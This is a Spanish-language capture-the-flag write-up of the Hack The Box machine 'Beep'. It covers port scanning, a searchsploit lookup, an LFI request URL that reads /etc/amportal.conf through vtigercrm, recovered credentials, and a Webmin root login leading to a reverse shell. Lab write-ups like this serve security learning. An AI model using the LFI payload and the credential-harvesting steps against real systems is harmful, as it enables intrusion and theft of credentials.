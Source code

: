 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 16/10/2017'
---
```


# Beep

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.7
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.7
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **22 (SSH - OpenSSH 4.3)**: Versión antigua, posible explotación y fuerza bruta.
* **25 (SMTP - Postfix)**: Puede filtrar usuarios o permitir envío sin autenticación (open relay).
* **80/443 (HTTP/HTTPS - Apache 2.2.3)**: Versión vulnerable, revisar exploits y probar SQLi, XSS, LFI.
* **110/995 (POP3/POP3s - Cyrus)**: Posible captura de credenciales en texto claro, probar autenticación.
* **111 (RPCBind)**: Puede permitir enumeración y ejecución remota de código.
* **143/993 (IMAP/IMAPs - Cyrus)**: Posible ataque de autenticación o exploits específicos.
* **3306 (MySQL - Acceso no autorizado)**: Intentar acceso con credenciales por defecto.
* **4445 (Servicio desconocido)**: Revisar banners y comportamiento con `nc`.
* **10000 (Webmin - MiniServ 1.570)**: **Vulnerable a RCE**, buscar exploits.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,25,80,443,110,995,143,993,3306,4445,10000 -v 10.10.10.7
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Probamos credenciales por defecto pero no hay resultado. Vamos a ver si **Elastix** tiene alguna vulnerabilidad para explotar.

```bash
searchsploit elastix
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos una vulnerabilidad **LFI** por lo que la explotamos. Descargamos el archivo.

```bash
searchsploit -m php/webapps/37637.pl
```

Vemos el contenido.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos el exploit LFI que tiene por lo que es lo que hacemos a continuación.

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al parecer aparecen unas credenciales.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
admin:jEhdIekWmdjE
```

Nos intentamos loguear con esas credenciales en el servicio **Webmin**.&#x20;

> Nota: las credenciales son root como usuario y misma contraseña.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Podemos ejecutar una tarea como root y eso hacemos para una Reverse Shell.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1233).png" alt=""><figcaption></figcaption></figure>
